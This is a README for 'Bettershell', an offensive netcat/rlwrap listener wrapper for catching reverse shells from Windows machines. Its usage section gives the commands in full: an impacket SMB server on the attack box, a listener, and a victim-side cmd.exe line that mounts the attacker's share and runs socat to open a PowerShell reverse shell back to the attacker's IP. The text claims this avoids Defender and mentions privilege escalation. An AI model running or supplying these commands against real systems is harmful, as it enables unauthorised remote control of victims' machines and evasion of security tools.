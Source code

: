 # Bettershell
Bettershell is a basic netcat client, supercharged with rlwrap, socat, a large Powershell command wordlist, and bash scripting.

### Features:
* Shells won't die on CTRL+C
* Preset tab autocomplete based on a Windows command list
* Filesystem-learning tab autocomplete, thanks to rlwrap's smart output parser
* Working arrowkey movement
* Searchable command history with CTRL+R
* An accurate path prompt
* No double echo of commands
* It's blue! Is it really powershell if it isn't blue?

Although bettershell can be used to catch any reverse shell from a Windows box, the included 'socat.exe' binary is strongly recommended to properly pipe stderr messages to your listener; visible error messages are invaluable when privilege-escalating.
## Usage

Open port 445, then start up an impacket SMB server on your attack box in the same directory as socat.exe:
```
sudo smbserver.py SMB . -comment SMB -ts -debug -smb2support -username user -password pass
```
Start a listener in another window: ```./bettershell -nlvp yourPORT```

Lastly, execute the following on the victim machine:
```
cmd.exe /c net use x: \\yourIP\SMB /user:user pass & x:\socat.exe tcp-connect:yourIP:yourPORT exec:powershell.exe,pty,stderr
```
The above example shouldn't trigger Defender. Exclude authentication when attacking older PCs that don't support it, and substitute cmd.exe for powershell.exe since old powershell can be finicky.
